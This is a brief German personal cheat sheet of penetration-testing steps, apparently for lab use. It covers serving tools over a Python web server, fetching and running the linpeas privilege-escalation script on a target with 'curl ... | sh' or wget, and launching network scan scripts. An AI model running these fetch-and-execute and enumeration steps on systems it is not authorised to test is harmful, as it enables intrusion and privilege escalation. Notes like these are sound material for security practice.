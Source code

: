 #### Python Webserver Aufmachen
Im Home Pfad
`python3 -m http.server`
Port ist 8000

Aufm Server für linpeas holen
`curl http://0.0.0.0:8000/Cyber/Tools/linpeas.sh | sh`
oder
`wget <myIP>:8000/Cyber/Tools/linpeas.sh`
`./linpeas.sh`

#### Netzwerk Scan
Recool starten
`python3 recool.py -I eth1 -s /home/kali/Cyber/scanResults --nplan-path /home/kali/go/bin/nplan -u`

Ivo starten
`nmapScenarioScan.py eth1`